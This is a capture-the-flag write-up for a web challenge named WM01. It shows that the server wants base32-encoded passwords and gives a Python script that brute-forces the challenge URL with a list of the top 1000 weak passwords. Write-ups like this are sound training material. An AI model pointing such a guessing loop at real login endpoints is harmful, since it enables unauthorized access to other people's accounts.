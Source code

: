 # WM01
## Web Exploit (Medium)

![WM02](WM01.png)

This challenge gives you another good hint when they mention using a list of top 1000 passwords (like so people aren't trying to use rockyou.txt to overload the server). However, they don't really talk about how the password should be encoded.

When you first try to submit the password to the URL, you'll see an error message that it is not in the "correct base encoding". This indicates that they expect the password to be in base64 or something when passed.

After a little experimentation, you find that it actually expects base32. A quick python script can loop through a text file with the top 1000 weak passwords (easily found on google), base32 encode it, submit it to the server, and print out the flag as soon as it succeeeds.

```python
import urllib.request
import base64

P = open("pass.txt")

count = 1

for p in P.readlines():

    password = base64.b32encode(p.strip().encode())

    response = urllib.request.urlopen('https://wm01.allyourbases.co/?pass='+password.decode())
    html = response.read().decode()

    if html != "Error: password incorrect":
        print(html)
        exit()
    else:
        print(count,end=" ")

    if count%25==0:
        print("\n",end="")

    count+=1
```
